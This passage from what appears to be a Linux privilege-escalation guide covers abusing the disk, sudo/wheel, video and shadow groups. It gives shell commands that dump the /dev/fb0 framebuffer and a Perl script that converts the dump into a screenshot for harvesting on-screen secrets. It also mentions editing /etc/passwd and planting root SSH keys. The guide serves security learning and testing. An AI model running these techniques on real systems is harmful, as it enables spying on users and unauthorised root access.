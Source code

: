 There are many ways to exploit this vulnerability, such as modifying the /etc/passwd file, adding new root SSH keys, viewing and cracking system passwords and more.

### Sudo/Admin & Wheel
The sudo/admin (in Debian derivatives) or wheel (in CentOS/RedHat derivatives) group is a special user group used to control access to the su or sudo commands, which allow users to either execute commands or masquerade as another user (usually the super user).

### Video
The video group can be used locally to give a set of users access to a video device or to the screen output.

This could be exploited by taking a screenshot of the current screen output and gathering any private information such as user passwords or hashes.

The following commands can be used to grab the raw output of the current screen and gather the current resolution settings (height and width):

````
cp /dev/fb0 /tmp/fb0.raw
width=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1)
height=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2)
````

The following perl script can then be used to convert the .raw file to an actual image 

````
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
````

### Shadow
The shadow group is required for the Linux shadow functionality to work, which is used to administer user passwords.

It is supposed to be accessible by the root user only, but because multiple users may be in the root group, the shadow group was created.
